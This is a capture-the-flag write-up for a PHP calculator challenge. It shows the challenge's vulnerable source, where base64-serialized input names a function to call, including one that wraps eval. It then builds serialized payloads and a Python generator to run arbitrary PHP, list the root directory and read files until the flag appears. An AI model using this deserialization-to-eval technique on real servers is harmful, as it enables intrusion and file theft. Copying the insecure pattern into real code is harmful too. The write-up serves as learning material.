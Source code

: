 ## Overview
After opening the website, we are greeted with a simple calculator (obviously). Lets input ```1 + 2``` to the textbox.

```
Result:
1 + 2 = 3
```
As expected, 1 + 2 does equal to 3. The interesting part of this is the url. 

```103.185.38.238:17227/?input=YTozOntpOjA7czozOiJzdW0iO2k6MTtzOjE6IjEiO2k6MjtzOjE6IjIiO30=```

It has some sort of encrypted input query that I assumed is base64. Let's try to decode the input with this script.

```
import base64

query = "YTozOntpOjA7czozOiJzdW0iO2k6MTtzOjE6IjEiO2k6MjtzOjE6IjIiO30="
query_b64 = base64.b64decode(query)
print(query_b64.decode("ascii"))
```
After running the script, we got this very interesting data.

```a:3:{i:0;s:3:"sum";i:1;s:1:"1";i:2;s:1:"2";}```

Let's dissect this data.

```
a:3  # Array of length 3
i:0 # Index of the array
s:3 # Size of this index's data
"sum" # The data on this index
```

Okay, that's very insightful. But, this is a web exploitation challenge. Let's look at the PHP of this website since this challenge is tagged PHP.

```
<?php
function format_error($expre) {
    return "<p><b>Format error:</b> the input is given in wrong format!</p>";
}

function opp_error($expre) {
    return "<p><b>Operator error:</b> operator for ".$expre." is not available!</p>";
}

function sum($a, $b) {
    $result = strval(intval($a) + intval($b));
    return "<p><b>Result:</b><br>".$a." + ".$b." = ".$result."</p>";
}

function sub($a, $b) {
    $result = strval(intval($a) - intval($b));
    return "<p><b>Result:</b><br>".$a." - ".$b." = ".$result."</p>";
}

function mul($a, $b) {
    $result = strval(intval($a) * intval($b));
    return "<p><b>Result:</b><br>".$a." * ".$b." = ".$result."</p>";
}

function div($a, $b) {
    $result = strval(intval($a) / intval($b));
    return "<p><b>Result:</b><br>".$a." / ".$b." = ".$result."</p>";
}

function evalit($code) {
    return eval($code);
}

if ($_SERVER["REQUEST_METHOD"] == "GET") {
    if (!empty($_GET["input"])) {
        $decoded = base64_decode($_GET["input"]);
        $out = unserialize($decoded);
        if ($out[2] != null) {
            $view = $out[0]($out[1], $out[2]);
            echo $view;
        }
        else {
            $view = $out[0]($out[1]);
            echo $view;
        }
    }
}

?>
```

The ```evalit``` function is definitely the key, since it can allow us to run code. But how can we input something to run the ```evalit``` function?

The ```sum``` function and other math functions have 2 arguments. So to run ```evalit```, we need to find other functions with only one argument. The easiest one to get is probably the ```format_error``` function. 

Let's input random stuff and get the input query!

```
a:2:{i:0;s:12:"format_error";i:1;s:4:"asdf";}
```

Woah, the function's name is literally there! So let's just change the fuction name and input and let's see if it works!

```
a:2:{i:0;s:6:"evalit";i:1;s:20:"echo "Hello world!";";}
```

Next step is to encode it to base64 and put it in the url!

```
103.185.38.238:17227/?input=YToyOntpOjA7czo2OiJldmFsaXQiO2k6MTtzOjIwOiJlY2hvICJIZWxsbyB3b3JsZCEiOyI7fQ==
```

And voila! The hello world is there. Now what? Well, the description said there is some interesting stuff in root. So let's go there!
Let's scan the root directory using this python script!

```
import base64

payload = "echo join(', ', scandir('/'));"
query = "a:2:{i:0;s:6:\"evalit\";i:1;s:" + str(len(payload)) + ":\"" + payload + "\";}"
query_b64 = query.encode("ascii")
query_b64 = base64.b64encode(query_b64)
print(query)
print("103.185.38.238:17227/?input=" + query_b64.decode("ascii"))
```

After that, let's look at the output!
```., .., .dockerenv, Hey.txt, Heyhey.txt, Heyheyhey.txt, Heyheyheyhey.txt, bin, boot, dev, etc, home, lib, lib64, media, mnt, opt, proc, root, run, sbin, srv, sys, tmp, usr, var```

We see some txt files in there. It could be the flag! Let's try one of them.
Let's change the payload.

```
payload = "echo file_get_contents('/Hey.txt');"
Output: Sorry, wrong guy :v 
```

Bruh, let's try the next one.

```
payload = "echo file_get_contents('/Heyhey.txt');"
Output: Hai! Hai! (^_^)  
```

Still not it, the next one maybe?

```
payload = "echo file_get_contents('/Heyheyhey.txt');"
Output: COMPFEST14{welcome_to_the_root} 
```

And just like that, the flag is found!

##### solved by kawijayaa